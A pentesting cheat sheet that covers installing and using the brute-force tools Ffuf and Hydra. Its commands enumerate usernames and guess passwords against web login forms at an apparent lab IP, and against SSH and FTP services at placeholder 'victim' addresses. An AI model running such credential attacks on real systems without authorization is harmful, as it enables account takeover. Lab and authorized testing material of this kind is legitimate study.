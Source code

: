 # Bruteforce tools

![](https://media0.giphy.com/media/l3fzT5zFwWu4qaMwM/giphy.gif?cid=ecf05e47di3px41edfczlb6njwlgi5v14azilnbcz5dy4r9v\&rid=giphy.gif\&ct=g)

## `Ffuf`

### Installation

{% embed url="https://github.com/ffuf/ffuf" %}

{% hint style="info" %}
_<mark style="color:blue;">Make sure you have</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**go**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">version</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**1.13 or greater**</mark><mark style="color:blue;">.</mark>_
{% endhint %}

### Go | Update

```bash
# Remove the golang-go package

sudo apt-get remove golang-go

# Remove the golang-go dependencies

sudo apt-get remove --auto-remove golang-go

# Uninstall the existing Go package

sudo rm -rvf /usr/local/go

# Install the new Go version

wget https://dl.google.com/go/go1.14.linux-amd64.tar.gz

# Extract the archive file

sudo tar -xvf go1.14.linux-amd64.tar.gz

sudo mv go /usr/local

export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH

# Reload environment variables

source ~/.profile

# Verify Go version

go version
```

### Usage

#### Usernames enumeration

```bash
ffuf -w /usr/share/wordlists/usernames.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/signup -mr "username already exists"
```

#### Bruteforce Passwords

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/best.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.247.33/customers/login -fc 200
```

## `Hydra`

{% hint style="info" %}
<mark style="color:blue;">**Bruteforce**</mark> <mark style="color:blue;"></mark><mark style="color:blue;">tool.</mark>
{% endhint %}

### Installation

```bash
# usually installed by default on kali/parrot
apt install hydra
```

### Flags

```bash
-l <user> # specifies the user
-P <path_passwd> # takes a path to a file which contains a list of password
-t <int> # specifies the number of threads used during the attack
-f # exit when a login/pass pair is found (-M: -f per host, -F global)
-s <PORT> # specifies service port
-V # verbose 
```

### Usage

#### SSH

```bash
hydra -l <user_name> -P <wordlist>.txt ssh://<ip_victim>
```

#### FTP

```bash
hydra -l user -P <wordlist>.txt ftp://<ip_victim>
```

#### WEB POST

```bash
hydra -l <username> -P <wordlist> <ip_victim> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

###
